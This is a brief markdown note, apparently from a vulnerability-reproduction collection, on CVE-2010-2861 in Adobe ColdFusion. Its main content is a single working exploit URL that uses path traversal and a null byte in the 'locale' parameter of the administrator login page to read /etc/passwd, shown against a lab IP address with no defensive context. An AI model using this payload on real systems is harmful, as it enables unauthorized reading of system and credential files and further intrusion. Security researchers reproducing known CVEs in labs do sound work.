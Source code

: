 # CVE-2010-2861
文件读取
```
http://192.168.111.129:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```
![](vx_images/214953345840163.png)
